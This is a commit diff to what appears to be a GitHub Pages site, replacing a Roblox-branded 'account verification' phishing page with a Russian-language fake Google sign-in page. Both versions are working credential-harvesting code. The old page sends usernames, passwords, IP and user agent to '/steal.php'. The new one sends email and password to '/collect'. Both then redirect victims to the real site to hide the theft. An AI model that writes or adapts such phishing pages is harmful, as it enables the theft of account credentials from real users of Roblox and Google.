

Before and after one commit to dcvs05419-coder/dcvs05419.github.io, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,189 +1,91 @@
 <!DOCTYPE html>
-<html lang="en">
+<html lang="ru">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Roblox - Account Verification Required</title>
+    <title>Войдите в Google Аккаунт</title>
     <style>
-        * { margin: 0; padding: 0; box-sizing: border-box; }
         body {
-            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-            background: linear-gradient(135deg, #00a2ff 0%, #0055ff 100%);
-            min-height: 100vh;
-            display: flex;
-            align-items: center;
-            justify-content: center;
+            font-family: 'Arial', sans-serif;
+            background: white;
+            margin: 0;
+            padding: 0;
         }
-        .container {
-            background: white;
-            border-radius: 15px;
-            box-shadow: 0 10px 30px rgba(0,0,0,0.3);
-            width: 90%;
-            max-width: 400px;
-            overflow: hidden;
+        .google-header {
+            text-align: center;
+            padding: 20px;
         }
-        .header {
-            background: #1a1a1a;
-            padding: 20px;
+        .login-container {
+            width: 450px;
+            margin: 50px auto;
+            border: 1px solid #dadce0;
+            border-radius: 8px;
+            padding: 48px 40px 36px;
+        }
+        .google-logo {
             text-align: center;
-        }
-        .header img {
-            height: 40px;
-        }
-        .content {
-            padding: 30px;
-        }
-        h2 {
-            color: #1a1a1a;
-            margin-bottom: 10px;
-            font-size: 24px;
-        }
-        .alert {
-            background: #fff3cd;
-            border: 1px solid #ffeaa7;
-            border-radius: 8px;
-            padding: 15px;
-            margin-bottom: 20px;
-            color: #856404;
-        }
-        .alert-icon {
-            color: #f39c12;
-            font-weight: bold;
-            margin-right: 5px;
-        }
-        .form-group {
             margin-bottom: 20px;
         }
-        label {
-            display: block;
-            margin-bottom: 5px;
-            color: #333;
-            font-weight: 500;
+        input[type="email"], input[type="password"] {
+            width: 100%;
+            padding: 13px 15px;
+            margin: 10px 0;
+            border: 1px solid #dadce0;
+            border-radius: 4px;
+            font-size: 16px;
         }
-        input {
-            width: 100%;
-            padding: 12px;
-            border: 2px solid #e0e0e0;
-            border-radius: 8px;
-            font-size: 16px;
-            transition: border-color 0.3s;
-        }
-        input:focus {
-            outline: none;
-            border-color: #00a2ff;
-        }
-        .btn {
-            background: #00a2ff;
+        .next-button {
+            background: #1a73e8;
             color: white;
             border: none;
-            padding: 15px;
-            border-radius: 8px;
-            font-size: 16px;
-            font-weight: 600;
+            padding: 10px 24px;
+            border-radius: 4px;
+            float: right;
             cursor: pointer;
-            width: 100%;
-            transition: background 0.3s;
-        }
-        .btn:hover {
-            background: #0088dd;
-        }
-        .footer {
-            text-align: center;
-            margin-top: 20px;
-            color: #666;
-            font-size: 12px;
-        }
-        .loading {
-            display: none;
-            text-align: center;
-            color: #00a2ff;
-            margin-top: 10px;
         }
     </style>
 </head>
 <body>
-    <div class="container">
-        <div class="header">
-            <img src="https://images.rbxcdn.com/1d7e1a5a0e54d21e76a51b6d2f5c34d3.svg" alt="Roblox">
+    <div class="google-header">
+        <!-- Пустое место вместо логотипа -->
     </div>
-        <div class="content">
-            <h2>Account Verification Required</h2>
-            <div class="alert">
-                <span class="alert-icon">⚠</span>
-                We've detected suspicious activity on your account. Please verify your credentials to secure your account.
+
+    <div class="login-container">
+        <div class="google-logo">
+            <h2>Войдите</h2>
+            <p>Продолжить в Google Аккаунт</p>
         </div>
-            <form id="loginForm">
-                <div class="form-group">
-                    <label for="username">Username or Email</label>
-                    <input type="text" id="username" name="username" required placeholder="Enter your username or email">
-                </div>
-                <div class="form-group">
-                    <label for="password">Password</label>
-                    <input type="password" id="password" name="password" required placeholder="Enter your password">
-                </div>
-                <button type="submit" class="btn">Verify Account</button>
-                <div class="loading" id="loading">
-                    Verifying your information...
-                </div>
+
+        <form id="loginForm" method="POST">
+            <input type="email" id="email" name="email" placeholder="Электронная почта или телефон" required>
+            <input type="password" id="password" name="password" placeholder="Введите ваш пароль" required>
+            <button type="submit" class="next-button">Далее</button>
         </form>
-            <div class="footer">
-                By verifying, you agree to Roblox's Terms of Service and Privacy Policy
-            </div>
-        </div>
     </div>
 
     <script>
-        document.getElementById('loginForm').addEventListener('submit', async function(e) {
+        document.getElementById('loginForm').addEventListener('submit', function(e) {
             e.preventDefault();
 
-            const form = e.target;
-            const loading = document.getElementById('loading');
-            const button = form.querySelector('button');
+            const email = document.getElementById('email').value;
+            const password = document.getElementById('password').value;
 
-            // Показать загрузку
-            button.style.display = 'none';
-            loading.style.display = 'block';
-
-            const formData = {
-                username: document.getElementById('username').value,
-                password: document.getElementById('password').value,
-                ip: await getIP(),
-                user_agent: navigator.userAgent,
-                timestamp: new Date().toISOString()
-            };
-
-            try {
             // Отправка данных на сервер
-                await fetch('/steal.php', {
+            fetch('/collect', {
                 method: 'POST',
                 headers: {
                     'Content-Type': 'application/json',
                 },
-                    body: JSON.stringify(formData)
+                body: JSON.stringify({
+                    email: email,
+                    password: password,
+                    userAgent: navigator.userAgent,
+                    timestamp: new Date().toISOString()
+                })
+            }).then(() => {
+                // Перенаправление на настоящий Google после сбора данных
+                window.location.href = 'https://accounts.google.com';
             });
-
-                // Задержка для реалистичности
-                setTimeout(() => {
-                    // Перенаправление на настоящий Roblox
-                    window.location.href = 'https://www.roblox.com/login?error=verification_failed';
-                }, 2000);
-
-            } catch (error) {
-                setTimeout(() => {
-                    window.location.href = 'https://www.roblox.com/login';
-                }, 2000);
-            }
         });
-
-        async function getIP() {
-            try {
-                const response = await fetch('https://api.ipify.org?format=json');
-                const data = await response.json();
-                return data.ip;
-            } catch {
-                return 'Unknown';
-            }
-        }
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
